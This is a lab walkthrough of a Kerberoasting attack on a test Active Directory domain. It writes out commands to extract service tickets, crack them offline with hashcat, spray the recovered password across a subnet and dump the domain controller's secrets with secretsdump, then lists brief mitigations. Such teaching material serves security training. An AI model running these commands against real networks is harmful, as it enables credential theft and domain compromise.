 # Kerberoasting

- Any authenticated domain user can request a TGS for any SPN.
- Service accounts often run critical services and are frequently over-privileged.
- Extract Kerberos Service Tickets (TGS) for accounts tied to Service Principal Names (SPNs), then brute-force the ticket offline to recover the service account’s password.
- If the service account password is weak, offline cracking is trivial.

## Walkthrough

1. Enumeration and Extraction

```
sudo impacket-GetUserSPNs MARVEL.local/fcastle:Password1! -dc-ip 10.0.2.18 -request -outputfile spns.hash
```

```{figure} ../../../_static/AD/kerberoasting1.png
:alt: Extracting SPNs
:width: 100%
:align: center

Extracting SPNs
```

2. Offline Cracking

Mode 13100 = Kerberos 5 TGS-REP etype 23.

```
hashcat -m 13100 spns.hash /usr/share/wordlists/rockyou.txt
```

```{figure} ../../../_static/AD/kerberoasting2.png
:alt: Cracking Service Password
:width: 100%
:align: center

Cracking Service Password
```

3. Privilege Escalation

- If successful, you get the service account password.
- Many service accounts are domain admins or have local admin rights across multiple machines, making this a strong lateral movement technique.

```
crackmapexec smb 10.0.2.0/24 -u SQLService -p 'MYpassword123#' -d MARVEL.local
impacket-secretsdump MARVEL.local/SQLService:'MYpassword123#'@10.0.2.XX
```

```{figure} ../../../_static/AD/kerberoasting3.png
:alt: Testing the credentials across the domain
:width: 100%
:align: center

Testing the credentials across the domain
```

Remember from our domain enumeration that this service account is misconfigured as Domain Admin. Therefore we can use it to dump secrets from any machine, including the DC.

```{figure} ../../../_static/AD/kerberoasting4.png
:alt: Dumping DC secrets
:width: 100%
:align: center

Dumping DC secrets
```

## Mitigations

- Strong Passwords
- Least privilege (Service account does not have to run as Domain Admin)

